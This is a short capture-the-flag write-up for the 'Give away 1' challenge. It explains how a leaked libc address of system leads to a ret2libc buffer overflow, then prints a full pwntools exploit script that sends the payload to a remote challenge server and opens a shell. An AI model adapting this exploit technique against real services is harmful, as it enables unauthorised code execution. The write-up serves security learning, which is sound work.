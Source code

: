 # Give away 1

It gives us some sort of address, but what address? it Begins with `0xf7`, so likely an address in libc. We can step through in pwndbg and find that it's actually printing the address of system in libc. Since the challenge gives us their libc version, we can calcualate the libc base given the address of system and therefore the address of `/bin/sh`.

This means we can make the program go to the address of system, with `/bin/sh` as an argument\(arguments are stored on the stack, just after the return address in 32-bit\)

So, our exploit must:

* Collect system address
* Calculate libc version and address of `/bin/sh`
* Use this to call `system("/bin/sh")`

```python
from pwn import *
import re
NUM_TO_RET = 0x20 + 4
padding = b'A' * NUM_TO_RET
e = ELF("./give1")
libc = ELF("/lib32/libc.so.6" if sys.argv[1] == "local" else "libc-2.27.so")
#p = e.process()
p = remote('sharkyctf.xyz', 20334)
output = p.recvline().decode()
system = int(re.findall("Give away: (.*)", output)[0], 16)
libcbase = system - libc.symbols['system']
libc.address = libcbase
chain = flat(system, libc.symbols['exit'], next(libc.search(b"/bin/sh\x00")))
payload = padding + chain
p.sendline(payload)
p.interactive()
```

